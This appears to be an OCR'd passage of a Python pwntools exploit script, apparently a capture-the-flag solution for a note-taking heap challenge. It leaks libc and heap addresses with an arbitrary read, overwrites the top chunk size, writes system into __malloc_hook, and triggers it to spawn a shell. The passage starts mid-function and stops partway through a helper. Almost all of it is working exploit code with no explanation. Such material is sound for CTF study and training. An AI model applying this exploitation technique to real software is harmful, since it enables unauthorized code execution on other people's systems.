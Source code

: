 ```python
    print("[+] leaked libbase: " + hex(libc.address));

    # stage 2 - leak topchunk by reading global array
    topchunk = leak_topchunk(io, elf);
    print("[+] leaked topchunk: " + hex(topchunk));

    # stage 3 - register __malloc_hook handler
    register_handler(io, libc, topchunk, libc.sym.system);
    print("[+] registered fake handler");

    # stage 4 - trigger hook and obtain a shell
    trigger_malloc_hook(io, libc.address + 0x18cd57);
    print("[+] obtaining shell...");

    io.interactive();

# <================ functions ================>

def leak_libbase(io, elf, libc):

    return arbitrary_read(io, elf.got['setvbuf']) - libc.sym.setvbuf;

def leak_topchunk(io, elf):

    return arbitrary_read(io, 0x602040 + (id * 0x8)) + 0x60;

def register_handler(io, libc, topchunk, handler):

    r        = libc.sym.__malloc_hook & 0xf;
    target   = libc.sym.__malloc_hook - r - 0x10;
    topchunk = topchunk + 0xa0 + 0x10;

    overwrite_topchunk(io);

    edit_note(io, 2, b"\x0a", b"\x0a", target - topchunk);
    edit_note(io, 2, b"\x0a", b"R" * r + p64(handler) + b"\x0a", 0x18);

def trigger_malloc_hook(io, rdi):

    edit_note(io, 2, b"\x0a", b"\x0a", rdi);

def arbitrary_read(io, addr):

    note_name = 0x4f * b"X";
    note_desc = 0x08 * b"S" + p64(addr);

    add_note(io, note_name, note_desc);
    x, leak = view_note(io, id - 1);

    return unpack(leak, 'all', endian = 'little');

def overwrite_topchunk(io):

    fake_meta = b"\xf1\xff\xff\xff\xff\xff\xff\xff";

    note_name = 0x4f * b"Y";
    note_desc = 0x08 * b"S" + 0x10 * b"\xff" + fake_meta;

    add_note(io, note_name, note_desc);

def add_note(io, name, desc):

    global id;
```